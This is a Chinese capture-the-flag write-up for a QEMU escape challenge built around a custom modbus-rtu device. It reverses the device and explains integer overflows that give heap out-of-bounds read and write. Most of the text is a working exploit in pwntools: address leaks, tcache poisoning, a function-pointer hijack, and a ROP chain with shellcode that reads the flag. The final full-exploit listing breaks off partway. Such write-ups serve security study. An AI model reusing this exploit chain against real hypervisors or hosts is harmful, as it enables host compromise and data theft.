





# 题目分析

[附件下载](https://ichunqiu-fujian.oss-cn-beijing.aliyuncs.com/ba5ab86a661f0c8904d5bd2d6732cbd4/babybus_177d199a4d358b2cc4a42b0ef019db50.zip)

qemu的启动脚本很简单：

```bash
./qemu-system-x86_64 \
-machine none \
-nographic \
-nodefaults \
-chardev socket,id=mbus,host=0.0.0.0,port=1502,server=on,wait=off \
-device modbus-rtu,chardev=mbus,unit-id=1
```

作者自己实现了一个modbus-rtu设备。

## 符号恢复

附件中的`qemu-system-x86_64`没有符号，版本为`10.1.0`，可以自己下载[源码](https://download.qemu.org/qemu-10.1.0.tar.xz)编译一个，用Bindiff来比对恢复所需函数名称，以及导出部分必要的Local Types：

```bash
tar -xvf qemu-10.1.0.tar.xz
cd qemu-10.1.0

sudo apt-get install git libglib2.0-dev libfdt-dev libpixman-1-dev zlib1g-dev ninja-build
sudo apt-get install libnfs-dev libiscsi-dev
mkdir _build && cd _build
../configure \
    --prefix=`pwd`/_install \
    --enable-debug \
    --disable-strip \
    --enable-kvm \
    --enable-multiprocess \
    --target-list=x86_64-softmmu
make -j4
```

此外，可以通过字符串引用找到`modbus_realize`函数在sub_40F6EE，里面注册了3个IO函数句柄：

```c
__int64 __fastcall modbus_realize_40F6EE(Object *a1, int a2)
{
  int v2; // r9d
  ModbusDeviceClass *mbc; // [rsp+18h] [rbp-8h]

  mbc = (ModbusDeviceClass *)VIRTIO_DEVICE_CLASS_5(a1);
  if ( !qemu_chr_fe_backend_connected(&mbc->chr) )
  {
    error_setg_internal(
      a2,
      (unsigned int)"../hw/char/modbus-rtu.c",
      263,
      (unsigned int)"modbus_realize",
      (unsigned int)"Can't create modbus-rtu device, empty char device",
      v2);
  }
  else
  {
    memset(mbc->mb_regs, 0, 0x200uLL);
    mbc->recv_len = 0LL;
    qemu_chr_fe_set_handlers(
      &mbc->chr,
      (IOCanReadHandler *)mbc_fd_can_read_40F5BB,// Return the number of bytes that #IOReadHandler can accept
      (IOReadHandler *)mbc_receive_40F5E9,      // async I/O support
      (IOEventHandler *)mbc_fd_event_40F6B6,
      0LL,
      mbc,
      0LL,
      1);
  }
  return 0LL;
}
```

其中，`mbc_receive_40F5E9`中调用了处理函数`mb_handle_40F282`：

```c
void *__fastcall mbc_receive_40F5E9(ModbusDeviceClass *opaque, const uint8_t *buf, int size)
{
  size_t _n; // rax
  size_t n; // [rsp+38h] [rbp-8h]

  if ( size > 0 )
  {
    _n = size;
    if ( 0x104LL - opaque->recv_len <= (unsigned __int64)size )
      _n = 0x104LL - opaque->recv_len;
    n = _n;
    if ( _n )
    {
      memcpy(&opaque->recv_buf[opaque->recv_len], buf, _n);
      opaque->recv_len += n;
    }
    while ( (unsigned __int8)mb_handle_40F282((__int64)opaque) )
      ;
  }
  return 0LL;
}
```

之后逆向报文的处理过程，需要结合modbus-rtu协议通信知识。


## ModBus-rtus协议

参考：[图文详解Modbus-RTU协议](https://zhuanlan.zhihu.com/p/390196128)

报文结构如下：



其中，1字节功能码如下：



通过逆向`mb_handle_40F282`函数可知，只处理了`0x3`和`0x10`两种类型的操作码，有效载荷结构如下：




需要注意，modbus-rtu协议采用**大端序传输报文**。

> [!caution]
>
> 但是在做题过程中发现判断crc字段采用的是小端序？

交互代码如下：

```python
def calc_crc(content):
    crc = 0xFFFF
    for b in content:
        crc ^= b & 0xFF
        for _ in range(8):
            if crc & 0x0001:
                crc = (crc >> 1) ^ 0xA001
            else:
                crc = crc >> 1
    return crc & 0xFFFF

def mb_read_regs(start, reg_num):
    payload = b""
    payload += p8(0) # addr
    payload += p8(3) # READ_HOLDING_REGS
    payload += p16(start, endianness="big")
    payload += p16(reg_num, endianness="big")
    payload += p16(calc_crc(payload))
    sn(payload)

def mb_write_regs(start, reg_num, regs):
    payload = b""
    payload += p8(0) # addr
    payload += p8(0x10) # WRITE_MULTI_REGS
    payload += p16(start, endianness="big")
    payload += p16(reg_num, endianness="big")
    payload += p8((reg_num*2)&0xff) # byte_cnt
    payload += regs
    payload += p16(calc_crc(payload))
    sn(payload)
```


## 逆向分析

逆向`mb_handle_40F282`等函数的过程中，可以恢复`ModbusDeviceClass`以及报文结构体定义：

```c
/* 627 */
struct mb_pkt
{
  char addr;
  char function;
  char buf[256];
  __int16 crc;
};

/* 224 */
struct __attribute__((aligned(8))) ModbusDeviceClass
{
  char parent_obj[152];
  CharBackend chr;
  char addr;
  __int16 regs[256];
  mb_pkt recv_buf;
  _QWORD recv_len;
};

/* 628 */
enum MB_CODE
{
  READ_HOLDING_REGS = 0x3,
  WRITE_MULTI_REGS = 0x10,
};

/* 629 */
struct mb_write_regs_pkt
{
  char addr;
  char function;
  __int16 start_addr;
  __int16 regs_num;
  char byte_cnt;
  __attribute__((packed)) __attribute__((aligned(1))) __int16 regs_val[251];
  __int16 crc;
};

/* 630 */
struct mb_read_regs_pkt
{
  char addr;
  char function;
  __int16 start_addr;
  __int16 regs_num;
  __int16 crc;
  char padding[504];
};
```

其中，`CharBackend`定义如下：

```c
struct __attribute__((aligned(4))) CharBackend
{
  Chardev *chr;
  IOEventHandler *chr_event;
  IOCanReadHandler *chr_can_read;
  IOReadHandler *chr_read;
  BackendChangeHandler *chr_be_change;
  void *opaque;
  unsigned int tag;
  bool fe_is_open;
};
```

**我们在`modbus_realize_40F6EE`函数中注册的三个函数句柄将分别存入该结构体的对应字段。**

`mb_handle_40F282`函数处理过程如下：

```c
__int64 __fastcall mb_handle_40F282(ModbusDeviceClass *mbc)
{
  unsigned __int8 addr; // [rsp+1Ah] [rbp-16h]
  unsigned __int8 function; // [rsp+1Bh] [rbp-15h]
  __int16 crc; // [rsp+1Ch] [rbp-14h]
  unsigned __int64 send_len; // [rsp+20h] [rbp-10h]
  mb_pkt *p_recv_buf; // [rsp+28h] [rbp-8h]

  if ( mbc->recv_len <= 3uLL )
    return 0LL;
  p_recv_buf = &mbc->recv_buf;
  addr = mbc->recv_buf.addr;
  function = mbc->recv_buf.function;
  if ( function == READ_HOLDING_REGS ) // 3
  {
    send_len = 8LL;
    if ( mbc->recv_len < 8uLL )
      return 0LL;
  }
  else
  {
    if ( function != WRITE_MULTI_REGS ) // error
    {
      if ( mbc->recv_len <= 3uLL )
        return 0LL;
      mb_ret_err_40ECF2(mbc, addr, function, 1);
      memmove(&mbc->recv_buf, &mbc->recv_buf.function, mbc->recv_len - 1LL);
      --mbc->recv_len;
      return 1LL;
    }
    if ( mbc->recv_len <= 6uLL )
      return 0LL;
    send_len = (unsigned __int8)mbc->recv_buf.buf[4] + 9;
    if ( mbc->recv_len < send_len )
      return 0LL;
  }
  crc = *((unsigned __int8 *)&mbc->mb_regs[0xFF] + send_len) | (*((unsigned __int8 *)&mbc->mb_regs[0xFF] + send_len + 1) << 8);
  if ( crc == (unsigned __int16)calc_crc_40EC2A((__int64)&mbc->recv_buf, send_len - 2) )
  {
    if ( addr == mbc->addr || !addr )
    {
      if ( function == READ_HOLDING_REGS ) // 3
      {
        mb_read_regs_40EDF2(mbc, (mb_read_regs_pkt *)p_recv_buf);
      }
      else if ( function == WRITE_MULTI_REGS ) // 0x10
      {
        mb_write_regs_40EFFF(mbc, (mb_write_regs_pkt *)p_recv_buf);
      }
    }
    memmove(&mbc->recv_buf, &mbc->recv_buf.addr + send_len, mbc->recv_len - send_len);
    mbc->recv_len -= send_len;
    return 1LL;
  }
  else
  {
    memmove(&mbc->recv_buf, &mbc->recv_buf.function, mbc->recv_len - 1LL);
    --mbc->recv_len;
    return 1LL;
  }
}
```

符合规范的报文会调用`calc_crc_40EC2A`函数计算比对报文最后16位的crc校验值，而后调用`mb_read_regs_40EDF2`和`mb_write_regs_40EFFF`处理。

其中，`mb_read_regs_40EDF2`函数如下：

```c
__int64 __fastcall mb_read_regs_40EDF2(ModbusDeviceClass *mbc, mb_read_regs_pkt *pkt)
{
  unsigned __int64 _p; // rax
  unsigned __int8 addr; // [rsp+1Ch] [rbp-24h]
  unsigned __int16 i; // [rsp+1Eh] [rbp-22h]
  unsigned __int16 start_addr; // [rsp+20h] [rbp-20h]
  unsigned __int16 regs_num; // [rsp+22h] [rbp-1Eh]
  __int16 reg_val; // [rsp+26h] [rbp-1Ah]
  unsigned __int64 p; // [rsp+28h] [rbp-18h]
  unsigned __int8 *res; // [rsp+38h] [rbp-8h]

  addr = pkt->addr;
  start_addr = _byteswap_ushort(pkt->start_addr);
  regs_num = _byteswap_ushort(pkt->regs_num);
  if ( regs_num && (unsigned __int16)(start_addr + regs_num) <= 0x100u ) // [1] oob read
  {
    res = (unsigned __int8 *)g_malloc((unsigned __int8)(2 * regs_num) + 5); // [2] oob write
    *res = addr;
    res[1] = 3;
    p = 3LL;
    res[2] = 2 * regs_num;
    for ( i = 0; i < regs_num; ++i ) // regs[i] = mb_regs[start+i]
    {
      reg_val = mbc->mb_regs[i + start_addr];
      res[p] = HIBYTE(reg_val);
      _p = p + 1;
      p += 2LL;
      res[_p] = reg_val;
    }
    *(_WORD *)&res[p] = calc_crc_40EC2A((__int64)res, p);
    mb_send_pkt_40ECAD(mbc, (__int64)res, p + 2);
    g_free(res);
  }
  else
  {
    mb_ret_err_40ECF2(mbc, addr, 3u, 2);
  }
  return 0LL;
}
```

漏洞点有两处：

1. 一处在`(start_addr + regs_num) <= 0x100u`的检查，由于没有分别检查`start_addr `和`regs_num`的大小上限，故**当`start_addr + regs_num >= 0x10000`时**会造成`uint16_t`溢出，从而实现**堆越界读**；
2. 另一处在`g_malloc((unsigned __int8)(2 * regs_num) + 5)`，由于只取了低`uint8_t`计算`malloc`的大小，故**当`regs_num >= 0x80`时**会造成`uint8_t`溢出，从而实现**堆越界写**。

`mb_write_regs_40EFFF`函数如下：

```c
__int64 __fastcall mb_write_regs_40EFFF(ModbusDeviceClass *mbc, mb_write_regs_pkt *buf)
{
  unsigned __int8 addr; // [rsp+14h] [rbp-2Ch]
  unsigned __int16 i; // [rsp+16h] [rbp-2Ah]
  unsigned __int16 start_addr; // [rsp+18h] [rbp-28h]
  unsigned __int16 regs_num; // [rsp+1Ah] [rbp-26h]
  uint8_t res[8]; // [rsp+30h] [rbp-10h] BYREF
  unsigned __int64 v8; // [rsp+38h] [rbp-8h]

  v8 = __readfsqword(0x28u);
  addr = buf->addr;
  start_addr = _byteswap_ushort(buf->start_addr);
  regs_num = _byteswap_ushort(buf->regs_num);
  if ( regs_num && (unsigned __int16)(start_addr + regs_num) <= 0x100u ) // oob write
  {
    if ( (unsigned __int8)buf->byte_cnt == 2 * regs_num )
    {
      for ( i = 0; i < regs_num; ++i ) // mb_regs[start+i] = regs[i]
        mbc->mb_regs[i + start_addr] = (LOBYTE(buf->regs_val[i]) << 8) | HIBYTE(buf->regs_val[i]);
      *(_QWORD *)res = addr;
      res[1] = 0x10;
      res[2] = HIBYTE(start_addr);
      res[3] = start_addr;
      res[4] = HIBYTE(regs_num);
      res[5] = regs_num;
      *(_WORD *)&res[6] = calc_crc_40EC2A((__int64)res, 6uLL);
      mb_send_pkt_40ECAD(mbc, (__int64)res, 8u);
    }
    else
    {
      mb_ret_err_40ECF2(mbc, addr, 0x10u, 3);
    }
  }
  else
  {
    mb_ret_err_40ECF2(mbc, addr, 0x10u, 2);
  }
  return 0LL;
}
```

同理，**当`start_addr + regs_num >= 0x10000`时**会造成`uint16_t`溢出，从而实现**堆越界写**。

和`mb_read_regs_40EDF2`略有不同的是，这里检查了`buf->byte_cnt == 2 * regs_num`，且在`mb_handle_40F282`函数中通过`buf->byte_cnt`判断报文长度计算尾部16位的crc校验值，从而限制了**`regs_num < 0x80`**。

# 利用过程

## leak

利用`mb_read_regs_40EDF2`的堆越界读，结合动态调试，我们可以很容易泄露出堆上一些设备结构体中的指针：

```c
    # leak
    mb_read_regs(0xff98, 0x78)
    tmp = rv(0x78*2+5)[3:-2]
    res = b""
    for i in range(0, len(tmp), 2):
        res += p16(u16(tmp[i:i+2], endianness="big"))
    res = res[6:]

    libc_base = u64(res[0x8:0x10]) - 0x203b60
    lg("libc_base", libc_base)
    elf_base = u64(res[0xb0:0xb8]) - 0x9ea35e
    lg("elf_base", elf_base)
    heap_base = u64(res[0x18:0x20]) - 0xa4270
    lg("heap_base", heap_base)
    libc.address = libc_base
```


## 构造任意地址写

泄露完成之后我们要想办法劫持控制流，目前我们具备2个线性堆越界写的能力：

1. 通过`mb_write_regs_40EFFF`中的堆越界写，可以实现`ModbusDeviceClass`结构体（记为`mbc`）后约`0xff00`距离的线性堆越界写
2. 通过`mb_read_regs_40EDF2`中的堆越界写，可以实现`0x20~0x100`大小堆块的线性越界写

经过动态调试分析和大量尝试，通过路径1（可能）没办法覆盖到可控的结构体函数句柄，所以最终选择用路径2来实现利用。

我们能够想到最简单的劫持控制流的方法就是覆盖`mbc->chr->chr_event/chr_can_read/chr_read`这三个函数句柄指针，函数参数均为`mbc`结构体头指针，但是`mbc`结构体前几乎没有可以直接申请到的空闲堆块，所以需要将线性堆越界写转化成任意地址写的能力。

这里我们可以利用堆溢出劫持特定大小的tcache以实现任意地址分配，刚启动时的空闲堆块如下：


如果tcache中没有特定大小的空闲堆块会从unsortedbin中切分分配，所以这里我们选择`0x70/0xa0/0xb0/0xc0`大小分配4个连续堆块，分别记为chunk0/1/2/3，chunk3为gap避免破坏unsortedbin：

```python
    # split unsortedbin chunk to get consecutive tcache chunks
    mb_read_regs(0, 0x60//2) # 0x70 chunk0
    mb_read_regs(0, 0x90//2) # 0xa0 chunk1
    mb_read_regs(0, 0xa0//2) # 0xb0 chunk2
    mb_read_regs(0, 0xb0//2) # 0xc0 gap
```

这里令`start_addr = 0xff90`，正好可以写入0xf0*2长度的内容，足够覆盖到chunk1和chunk2。伪造过程中比较麻烦的点在于`mb_read_regs_40EDF2`中申请出来的堆写完后会立马释放，所以我们需要在风水过程中适时修改`chunk->size`使之释放后进入指定大小的tcache：

1. chunk0溢出覆盖`chunk2->size = 0xa0`
2. 申请到chunk2，释放后chunk2链入0xa0 tcache，此时0xa0 tcache中就有2个可控堆块了
3. chunk0溢出覆盖`chunk2->next = target; chunk2->size = 0xb0`
4. 申请到chunk2，释放后target链入0xa0 tcache，chunk1链入0xb0 tcache
5. 再次申请0xa0大小的chunk即可申请到target

```python
    # hijack 0xa0 tcache
    chunk1 = heap_base + 0x2d85e0
    chunk2 = heap_base + 0x2d8680
    target = heap_base + 0x84730

    # 0x70 chunk
    payload = b"\x00"*(0x68-3) + p64(0xa1)
    payload += p64(0^(chunk1>>12))
    payload = payload.ljust(0x78*2, b"\x00")
    mb_write_regs(0xff90-1, 0x78, payload)
    rv(8)
    payload = b"\x00"*(0x98-3) + p64(0xa1)
    payload += p64(0^(chunk2>>12))
    payload = payload.ljust(0x78*2, b"\x00")
    mb_write_regs(0xff90+0x38-1, 0x78, payload)
    rv(8)

    mb_read_regs(0xff90-1, 0x160//2) # malloc(0x65) -> chunk0
    mb_read_regs(0, 0xa0//2) # malloc(0xa5) -> chunk2 -> chunk2 into 0xa0 tcache

    # 0x70 chunk
    payload = b"\x00"*(0x68-3) + p64(0xb1)
    payload += p64(0^(chunk1>>12))
    payload = payload.ljust(0x78*2, b"\x00")
    mb_write_regs(0xff90-1, 0x78, payload)
    rv(8)
    payload = b"\x00"*(0x98-3) + p64(0xb1)
    payload += p64(target^(chunk2>>12))
    payload = payload.ljust(0x78*2, b"\x00")
    mb_write_regs(0xff90+0x38-1, 0x78, payload)
    rv(8)

    mb_read_regs(0xff90-1, 0x160//2) # malloc(0x65) -> chunk0
    mb_read_regs(0, 0x90//2) # malloc(0x95) -> chunk2 -> chunk2 into 0xb0 tcache; target into 0xa0 tcache
```

注意，由于target申请出来之后还会被释放，所以我们**需要找合法堆块作为target**。


## 劫持控制流

调试可知，`mbc`堆块前正好有一个0x20大小的chunk可以作为target，最终我们要劫持的函数句柄在`mbc+0xa0~0xb8`的位置：



经过调试，三个指针中最先在`$rebase(0xB29FFA)`调用`mbc+0xa8`处的函数句柄，此时`rdi/rax`指向`mbc`结构体，`rdx`为函数句柄：



通过3个gadget可以将rsp转换到可控堆内存上：

```python
    gg1 = libc_base + 0x0000000000176f3e # mov rdx, qword ptr [rax + 0x38] ; mov rdi, rax ; call qword ptr [rdx + 0x20]
    gg2 = libc_base + 0x000000000005ef6f # mov rsp, rdx ; ret
    gg3 = libc_base + 0x0000000000044d31 # add rsp, 0x10 ; pop rbx ; pop r12 ; pop rbp ; ret
    leave = libc_base + 0x00000000000299d2

    # fake DevClass
    payload = b"\x00"*(0x18-3)
    payload += p64(0x401)
    payload = payload.ljust(0x38-3, b"\x00")
    payload += p64(target+0x40) #rdx
    payload += p64(gg3)
    payload = payload.ljust(0x40+0x20-3, b"\x00")
    payload += p64(gg2)
    payload += p64(0)
    # rop
    payload += p64(prbp) + p64(buf_addr-8)
    payload += p64(leave)
    payload = payload.ljust(0xb8-3, b"\x00")
    payload += p64(heap_base+0x2d5960)
    payload += p64(elf_base+0x40f6b6) # mbc_fd_event_40F6B6
    payload += p64(gg1) # mbc_fd_can_read_40F5BB
    payload += p64(elf_base+0x40f5e9) # mbc_receive_40F5E9
    payload += p64(0)
    payload += p64(target) # rax/rdi
    payload += p64(0x100000000) + p8(1)
    payload = payload.ljust(0x78*2, b"\x00")
    mb_write_regs(0, 0x78, payload)
    mb_read_regs(0, 0x190//2) # malloc(0x95) -> 0xa0 chunk
```

> [!error]
>
> 覆盖`mbc+0x98`处的堆指针会产生段错误，所以需要伪造`mbc+0x98`位置的堆地址和原来相同。

从`mbc+0x68`的位置写ROP，但是不能覆盖到`mbc+0x98`，距离比较短，所以可以提前将ROP写到任意堆块上，再用`leave`做个栈迁移。由于本题中的qemu只能通过socket进行交互，执行`system("/bin/sh")`没有回显。为了方便执行任意代码，ROP调用`mprotect`之后转为执行shellcode。（后面发现其实也可以通过ROP执行orw完成利用的）

这里我们申请一个0x100大小的堆块存放ROP和shellcode，查看Docker里`/proc/xxx/fd`可知有用户连接时多出一个socket用的fd为10，远程相同，最终可以通过orw获取到flag：

```python
    syscall = libc_base + 0x0000000000098FB6
    prdi = libc_base + 0x000000000010f78b
    prsi = libc_base + 0x0000000000110a7d
    prdx = elf_base + 0x00000000006fe3f6
    prcx = libc_base + 0x00000000000a877e
    prax = libc_base + 0x00000000000dd237

    buf_addr = heap_base + 0x83c30 + 0x10
    tmp_addr = heap_base + 0x2f000

    rop = p64(prdi) + p64((buf_addr>>16)<<16)
    rop += p64(prsi) + p64(0x10000)
    rop += p64(prdx) + p64(7)
    rop += p64(prax) + p64(constants.SYS_mprotect)
    rop += p64(syscall)
    rop += p64(buf_addr+len(rop)+8) # shellcode addr

    sc = ""
    sc += shellcraft.open('flag')
    #sc += shellcraft.read('rax', tmp_addr, 0x100)
    #sc += shellcraft.write(10, target, 0x100)
    sc += f'''
        mov rdi, rax
        mov rsi, {tmp_addr}
        mov rdx, 0x100
        mov rax, {constants.SYS_read}
        syscall

        mov rdi, 0xa
        mov rsi, {tmp_addr}
        mov rdx, 0x100
        mov rax, {constants.SYS_write}
        syscall
    '''

    payload = b"\x00"*(0x10-3) + rop + asm(sc)
    lg("len", len(payload))
    payload = payload.ljust(0x78*2, b"\x00")
    mb_write_regs(0, 0x78, payload)
    mb_read_regs(0, 0xf0//2) # malloc(0xf5) -> 0x100 chunk
```


# 完整Exp

```python
from pwn import *
from pwnlib import constants

aslr = True
context.log_level = "debug"
#context.terminal = ["deepin-terminal","-m","splitscreen","-e","bash","-c"]
context.terminal = ['tmux','splitw','-h']
context.arch = "amd64"
context.os = "linux"

pc = './qemu-system-x86_64'
_libc = '/lib/x86_64-linux-gnu/libc.so.6'
elf = ELF(pc)
libc = ELF(_libc)

p = None
ru = lambda x : p.recvuntil(x)
sn = lambda x : p.send(x)
rl = lambda   : p.recvline()
sl = lambda x : p.sendline(x)
rv = lambda x : p.recv(x)
sa = lambda a,b : p.sendafter(a,b)
sla = lambda a,b : p.sendlineafter(a,b)

def lg(s,addr):
    log.critical("{} -> {}".format(s, hex(addr)))

def raddr(a=6):
    if(a):
        return u64(rv(a).ljust(8, b'\x00'))
    else:
        return u64(rl().strip().ljust(8,b'\x00'))

def conn(remote_addr=[]):
    global p
    if remote_addr == []:
        #p = process(pc,aslr=aslr,env={'LD_PRELOAD': _libc})
        p = process(pc,aslr=aslr)
    else:
        #os.popen("./run.sh")
        #sleep(1)
        p = remote(remote_addr[0], remote_addr[1])

def calc_crc(content):
    crc = 0xFFFF
    for b in content:
        crc ^= b & 0xFF
        for _ in range(8):
            if crc & 0x0001:
                crc = (crc >> 1) ^ 0xA001
            else:
                crc = crc >> 1
    return crc & 0xFFFF

def mb_read_regs(start, reg_num):
    payload = b""
    payload += p8(0) # addr
    payload += p8(3) # READ_HOLDING_REGS
    payload += p16(start, endianness="big")
    payload += p16(reg_num, endianness="big")
    payload += p16(calc_crc(payload))
    sn(payload)

def mb_write_regs(start, reg_num, regs):
    payload = b""
    payload += p8(0) # addr
    payload += p8(0x10) # WRITE_MULTI_REGS
    payload += p16(start, endianness="big")
    payload += p16(reg_num, endianness="big")
    payload += p8((reg_num*2)&0xff) # byte_cnt
    payload += regs
    payload += p16(calc_crc(payload))
    sn(payload)

if __name__ == "__main__":
    conn(["127.0.0.1", 1502])

    # leak
    mb_read_regs(0xff98, 0x78)
    tmp = rv(0x78*2+5)[3:-2]
    res = b""
    for i in range(0, len(tmp), 2):
        res += p16(u16(tmp[i:i+2], endianness="big"))
    res = res[6:]

    libc_base = u64(res[0x8:0x10]) - 0x203b60
    lg("libc_base", libc_base)
    elf_base = u64(res[0xb0:0xb8]) - 0x9ea35e
    lg("elf_base", elf_base)
    heap_base = u64(res[0x18:0x20]) - 0xa4270
    lg("heap_base", heap_base)
    libc.address = libc_base

    # split unsortedbin chunk to get consecutive tcache chunks
    mb_read_regs(0, 0x60//2) # 0x70 chunk0
    mb_read_regs(0, 0x90//2) # 0xa0 chunk1
    mb_read_regs(0, 0xa0//2) # 0xb0 chunk2
    mb_read_regs(0, 0xb0//2) # 0xc0 gap

    # hijack 0xa0 tcache
